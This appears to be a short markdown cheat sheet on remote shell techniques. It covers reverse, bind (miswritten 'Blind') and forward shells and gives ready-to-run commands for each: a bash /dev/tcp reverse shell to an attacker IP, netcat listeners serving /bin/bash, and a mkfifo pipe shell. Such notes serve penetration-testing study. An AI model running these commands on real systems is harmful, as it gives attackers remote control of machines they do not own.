 # Reverse Shell

- A technique that allows an attacker to connect to a remote machine from their own machine. It establishes a connection from the compromised machine to the attacker's machine. This is achieved by executing a malicious program or a specific instruction on the remote machine that establishes a connection back to the attacker's machine, allowing them to take control of the remote machine.

```ruby
# On the attacker's machine (IP: 192.168.1.100)
nc -lvnp 4444

# On the victim's machine
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1

```

# Blind Shell

- This technique is the opposite of a Reverse Shell. Instead of the compromised machine connecting to the attacker's machine, the attacker connects to the compromised machine. The attacker listens on a specific port, and the compromised machine accepts the incoming connection on that port. The attacker then has console access to the compromised machine, allowing them to take control of it.

```ruby
# On the victim's machine
nc -lvnp 4444 -e /bin/bash

# On the attacker's machine
nc 192.168.1.200 4444
```

# Forward Shell

- This technique is used when Reverse or Bind connections cannot be established due to Firewall rules implemented in the network. It is achieved using mkfifo, which creates a FIFO (named pipe) file that is used as a kind of "simulated console" through which the attacker can operate on the remote machine. Instead of establishing a direct connection, the attacker redirects traffic through the FIFO file, allowing bidirectional communication with the remote machine.

```ruby
# On the victim's machine
mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 4444 > /tmp/f

# On the attacker's machine
nc 192.168.1.200 4444

``` 

## Link

```ruby
https://github.com/s4vitar/ttyoverhttp
```
